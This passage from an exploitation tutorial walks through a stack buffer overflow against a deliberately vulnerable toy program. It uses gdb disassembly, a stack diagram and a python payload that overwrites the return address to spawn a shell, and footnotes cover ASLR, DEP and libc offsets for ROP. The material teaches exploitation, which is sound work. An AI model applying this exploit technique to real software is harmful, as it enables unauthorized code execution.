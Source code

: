 We disassemble the program to learn the information we will need in order to exploit it: the size of the buffer and the address of `not_called`:

~~~
:::console
$ gdb -q a.out
Reading symbols from /home/ppp/a.out...(no debugging symbols found)...done.
(gdb) disas vulnerable_function 
Dump of assembler code for function vulnerable_function:
   0x08048464 <+0>:  push   %ebp
   0x08048465 <+1>:  mov    %esp,%ebp
   0x08048467 <+3>:  sub    $0x88,%esp
   0x0804846d <+9>:  mov    0x8(%ebp),%eax
   0x08048470 <+12>: mov    %eax,0x4(%esp)
   0x08048474 <+16>: lea    -0x6c(%ebp),%eax
   0x08048477 <+19>: mov    %eax,(%esp)
   0x0804847a <+22>: call   0x8048340 <strcpy@plt>
   0x0804847f <+27>: leave  
   0x08048480 <+28>: ret   
End of assembler dump.
(gdb) print not_called
$1 = {<text variable, no debug info>} 0x8048444 <not_called>
~~~

We see that `not_called` is at `0x8048444` and the buffer `0x6c` bytes long. Right before the call to `strcpy@plt`, the stack in fact looks like:

~~~
:::text
| <argument>          |
| <return address>    |
| <old %ebp>          | <= %ebp
| <0x6c bytes of      |
|       ...           |
|       buffer>       |
| <argument>          |
| <address of buffer> | <= %esp
~~~  

Since we want our payload to overwrite the return address, we provide 0x6c bytes to fill the buffer, 4 bytes to replace the old `%ebp`, and the target address (in this case, the address of `not_called`). Our payload looks like:

~~~
:::text
| 0x8048444 <not_called>     |
| 0x42424242 <fake old %ebp> |
| 0x41414141 ...             |
|   ... (0x6c bytes of 'A's) |
|   ... 0x41414141           |
~~~

We try this and we get our shell[^4]:

[^4]: You'll note that we use print the exploit string in a python subshell.  This is so we can print escape characters and use arbitrary bytes in our payload. We also surround the subshell in double quotes in case the payload had whitespace in it.

~~~
:::console
$ ./a.out "$(python -c 'print "A"*0x6c + "BBBB" + "\x44\x84\x04\x08"')"
Enjoy your shell!
$ 
~~~


[^1]: [ASLR](https://en.wikipedia.org/wiki/ASLR) is the technique where portions of the program, such as the stack or the heap, are placed at a random location in memory when the program is first run. This causes the address of stack buffers, allocated objects, etc to be randomized between runs of the program and prevents the attacker.
[^2]: [DEP](https://en.wikipedia.org/wiki/Data_Execution_Prevention) is the technique where memory can be either writable or executable, but not both. This prevents an attacker from filling a buffer with shellcode and executing it. While this usually requires hardware support, it is quite commonly used on modern programs. 
[^3]: To make life easier for us, we compile with `gcc -m32 -fno-stack-protector easy_rop.c`. 
[^7]: These can be found in the `libc` library itself: `ldd a.out` tells us that the library can be found at `/lib/i386-linux-gnu/libc.so.6`. We can use `objdump`, `nm`, `strings`, etc. on this library to directly find any information we need. These addresses will all be offset from the base of `libc` in memory and can be used to compute the actual addresses by adding the offset of `libc` in memory.
[^8]: I believe someone even [tried to prove](http://cseweb.ucsd.edu/~hovav/papers/rbss12.html) that ROP is turing complete.   
[^10]: Note the `$'\211'` syntax to enter escape characters.
[^11]: To see why this is necessary, compare the behavior of `echo ls | bash` to `cat <(echo ls) - | bash`.